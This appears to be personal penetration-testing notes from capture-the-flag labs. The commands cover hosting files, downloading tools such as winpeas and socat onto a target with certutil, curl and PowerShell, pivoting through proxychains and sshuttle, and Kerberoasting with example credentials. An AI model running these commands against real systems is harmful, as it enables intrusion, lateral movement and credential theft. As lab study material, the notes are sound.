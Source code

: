 
>[! warning] Tool called Hack-tools Extension

Transfer methods Column 
![[Pasted image 20241120063050.png | 450]]


- [ ] File Transfers 

Hosting Python / SMB / ftp
```
python3 -m http.server 80
```

```
python -m pyftpdlib 21
```

```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```


<hr>


Downloading
Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.8\Hackthebox
```



Navigate | Browser


Certutil command 
```
certutil.exe -urlcache -f http://192.168.205.128/winpeas.exe winpeas.exe
```


Curl Command
```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```


Wget
```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Powershell
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

FTP
```
ftp 10.10.10.10
```


>[!bug ] Metasploit & Evil-winrm

Upload & Download option


<hr>


- [ ] Maintaining Access Overview
![[Pasted image 20241122102719.png]]



- [ ] Pivoting Walkthrough Proxy-Chains (S Shuttle)

```
ssh -f -N -D 9050 -i pivot root@10.10.155.5
```

```
proxychains nmap -p88 10.10.10.225 
```


Scan for open ports
```
proxychains nmap 10.10.10.225 
```


Some times this scan doesn't show anything but you know
something is there
```
proxychains nmap 10.10.10.225 -sT
```


Kerberoasting through Proxy-chains:
```
proxychains GetUserSPNS.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.255 -request
```


RDP through Proxy-chains:
```
proxychains xfreerdp /u:administrator /p"'Hacker321!' /v:10.10.10.225
```

sshuttle
```
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot" 
```

```
nano /etc/proxychains4.conf
```


<hr>


- [ ] Cleaning Up

![[Pasted image 20241122113059.png]]
